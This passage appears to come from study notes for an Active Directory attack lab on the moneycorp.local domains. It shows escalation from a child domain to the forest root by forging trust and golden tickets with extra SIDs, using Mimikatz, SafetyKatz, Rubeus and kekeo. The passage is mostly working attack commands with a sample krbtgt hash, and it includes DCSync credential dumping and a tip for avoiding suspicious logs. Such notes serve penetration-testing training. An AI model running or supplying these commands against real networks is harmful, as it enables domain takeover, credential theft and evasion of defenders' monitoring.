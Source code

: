 ~~~
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
~~~

Use the TGS to access the targeted service:

~~~
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
~~~

Tickets for other services (like **HOST** and **RPCSS for WMI**, **HTTP for PowerShell Remoting** and **WinRM**) can be created as well.

**Abuse with Rubeus**

Note that we are still using the TGT forged initially:
~~~
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt 
ls \\mcorp-dc.moneycorp.local\c$
~~~


#### Child to Parent using krbtgt hash

We will abuse sIDhistory once again:

~~~
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-	5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
~~~

In the above command, the mimkatz option **/sids** is forcefully setting the **sIDHistory** for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

On any machine of the current domain:

~~~
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$ 
gwmi -class win32_operatingsystem -ComputerName mcorp-dc.moneycorp.local 
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
~~~

Avoid suspicious logs by using Domain Controllers group:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9  /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
~~~

~~~
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
~~~

S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers S-1-5-9 - Enterprise Domain Controllers
